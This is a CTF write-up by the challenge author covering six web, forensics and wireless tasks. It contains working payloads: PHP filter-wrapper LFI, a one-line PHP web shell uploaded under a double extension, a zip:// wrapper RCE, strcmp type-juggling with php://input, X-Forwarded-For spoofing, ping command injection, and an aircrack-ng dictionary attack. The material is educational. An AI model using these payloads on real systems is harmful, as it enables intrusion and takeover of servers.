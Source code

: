 # SecurinetsMiniCTF Writeups #
Hello guys , you will find here writeups of SecurinetsMiniCTF tasks written by Kahla (Meeeeeee ! ) , i want to apologize for the lack of details in these solvers , i really didn't have enough time (exams are sooon :'( ) anyways don't hesitate and contact me if you had any problems 

## Warm Up (535 Pts) ##

![TASK](https://i.imgur.com/JM2d9Dd.jpg)


In this task we are given a simple web page showing an include statement , the idea is simple this is a local file inclusion LFI and our goal is to read flag.php content so we will use php wrappers .

***Payload*** : 
> url/_=php://filter/convert.base64-encode/resource=flag.php
we will then have the flag.php content encoded with base64 , so after decoding it we get our flag 

## No More Warm Up (884 Pts) ##

![TASK](https://i.imgur.com/SbuUjoK.jpg)


In this task we are given an upload page, in fact there are two solutions 

- ***The unintended*** one which i think pretty easy xd :

you only have to upload a php shell with the name "foo.jpg.php"
**Example :**

Content of foo.jpg.php :
```php
<?php system($_GET('command')); ?> 
```
and then we just have to visit 
>/uploads/foo.jpg.php?command=YourCommandHere  

- ***The Intended Solution:***

We can notice that there is a possibility of an LFI in the page parameter but unfortunately all the known php wrappers are filtered (The Author is 3vil)

Because of the existence of the upload feature we can think of the possibility of using the zip wrapper
so firstly we create foo.php file : 
```php
<?php system($_GET['command']) ; ?>
```

Then we have to compress the file :
> zip foo.zip foo.php

and rename it to foo.jpg :
> mv foo.zip foo.jpg

and finally after uploading the foo.jpg file our payload will be :
>/?page=zip://uploads/foo.jpg%23foo.php

Now the foo.php will be unzipped and we will have the possibility to execute any command with 
>foo.php?command=YourCommandHere(ls first to list all files and then cat the flag file)

## My Hero (884 Pts) ##

![TASK](https://i.imgur.com/iKcmReS.jpg)

We are given a page with php code inside , there are two conditions we need to bypass to have our beloved flag , 

![TASK](https://i.imgur.com/KdtGnwn.png)


- First check :
> if(file_get_contents(@$_GET['__'])==="Kahla is my hero")

in order to bypass this condition we will have to use the input php wrapper 
- The second condition :
>if(strcmp(@$_GET['_'],$pass)==0)

We will exploit php type juggling, in php NULL==0 will return True so we will try to pass an array as a parameter then the strcmp (AnArray,$pass) will return Null 

***Finally this is our payload :***
> /?__=php://input&_[]= 

And don't forget to write the sentence "Kahla is my hero" in the body of the Http request(you can use burp to facilitate things)

## No Clues (1000 Pts) ##

![TASK](https://i.imgur.com/xUL2HVO.jpg)


In this task we got a picture of the admin connecting to a web server through proxies so we can think that maybe we will use X-forwarded-for http header , You can read about it here [LINK](https://en.wikipedia.org/wiki/X-Forwarded-For)

![TASK](https://i.imgur.com/aBTtnLy.jpg)

As we can see in this wikipedia article , the X-forwarded-for header adds automatically the last connected proxy (proxy 3
in our case which is a load balancer maybe)
>    X-Forwarded-For: client, proxy1, proxy2
where the value is a comma+space separated list of IP addresses, the left-most being the original client, and each successive proxy that passed the request adding the IP address where it received the request from. In this example, the request passed through proxy1, proxy2, and then proxy3 (not shown in the header).

so we will add this header to our http request using burp suite: 
>X-Forwarded-For:adminIP,Proxy1,Proxy2 ***(replace each one with its ip address xd)***

Bingo we are now connected as an admin and we have a simple web page that pings any ip we provide , this step is pretty simple by entering :
>11;ls 

we can have an RCE , so our last payload is 
>12;cat z21851ddfde521782z8

## More Than A Crush 2 (991 Pts) ##

![TASK](https://i.imgur.com/ZeMhn9B.jpg)


In this Forensics task , we were given a wireshark capture ,each ICMP packet of type 0 hold within it some raw data that's why we ll extract it using scapy library in python , concatenate all this data and then decode it 

![TASK](https://i.imgur.com/429tPOP.png)


```python
#!/usr/bin/env python

from scapy.all import *
import base64

#EXTRACT RAW FLAG
def extract_flag():
    bin=""
    packets=rdpcap("morecv2.pcapng")
    for pckt in packets :
        if pckt.haslayer(scapy.all.ICMP) :
            if pckt[scapy.all.ICMP].type==0:
                try:
#                     pckt[scapy.all.ICMP].show()
                    bin+=pckt[scapy.all.Raw].load
                except ValueError:
                    continue    
    return bin            

#MAIN

raw_bin=extract_flag()    
#DECODE Base64 AND CREATE THE ZIP FILE
with open("youuupi.zip","wb") as file:
	file.write(base64.b64decode(raw_bin))
```
Finally you only have to unzip the extracted file and then use strings tool to have the flag

## Chonin LvL (713 Pts) ##

![TASK](https://i.imgur.com/PxApLp2.jpg)


This task is pretty simple , we have a pcap file of a handshake so we need to get the password of this access point in order to submit it, we will launch a dictionary attack

>aircrack-ng <filename>.pcap -w /usr/share/wordlists/rockyou.txt

And Bingo the password is ***gohan123***

## ##
I hope you enjoyed the tasks and learned from them, i apologize again for the lack of details , contact me if you faced any problems 
